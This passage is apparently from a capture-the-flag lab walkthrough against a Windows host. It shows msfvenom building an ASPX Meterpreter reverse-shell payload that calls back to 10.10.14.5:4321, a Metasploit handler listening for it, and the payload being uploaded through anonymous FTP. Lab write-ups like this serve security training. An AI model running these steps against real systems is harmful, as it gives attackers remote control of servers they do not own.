 
2. FTP connection and upload test file. then create a reverse shell payload. 
```
┌──(kali㉿kali)-[~]
└─$ msfvenom -p windows/meterpreter_reverse_tcp LHOST=10.10.14.5 LPORT=4321 -f aspx > reverse.aspx
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 175686 bytes
Final size of aspx file: 888287 bytes

```

3. Run the Metasploit meterpreter reverse shell exploit. 
```
┌──(kali㉿kali)-[~]
└─$ msfconsole                                                                                    
                                                  
IIIIII    dTb.dTb        _.---._
  II     4'  v  'B   .'"".'/|\`.""'.
  II     6.     .P  :  .' / | \ `.  :
  II     'T;. .;P'  '.'  /  |  \  `.'
  II      'T; ;P'    `. /   |   \ .'
IIIIII     'YvP'       `-.__|__.-'

I love shells --egypt


       =[ metasploit v6.3.25-dev                          ]
+ -- --=[ 2332 exploits - 1219 auxiliary - 413 post       ]
+ -- --=[ 1385 payloads - 46 encoders - 11 nops           ]
+ -- --=[ 9 evasion                                       ]

Metasploit tip: Use help <command> to learn more 
about any command
Metasploit Documentation: https://docs.metasploit.com/

msf6 > use exploit/multi/handler 
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/meterpreter_reverse_tcp 
payload => windows/meterpreter_reverse_tcp
msf6 exploit(multi/handler) > set LHOST 10.10.14.5
LHOST => 10.10.14.5
msf6 exploit(multi/handler) > set LPORT 4321
LPORT => 4321
msf6 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 10.10.14.5:4321 

```

4. Upload previous to the ftp 
```
┌──(kali㉿kali)-[~]
└─$ ftp 10.10.10.5
Connected to 10.10.10.5.
220 Microsoft FTP Service
Name (10.10.10.5:kali): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password: 
230 User logged in.
Remote system type is Windows_NT.
ftp> put re
readwrite.py            recon                   reports
readwrite.py.save       removed_files.log       reverse.aspx
ftp> put reverse.aspx 
```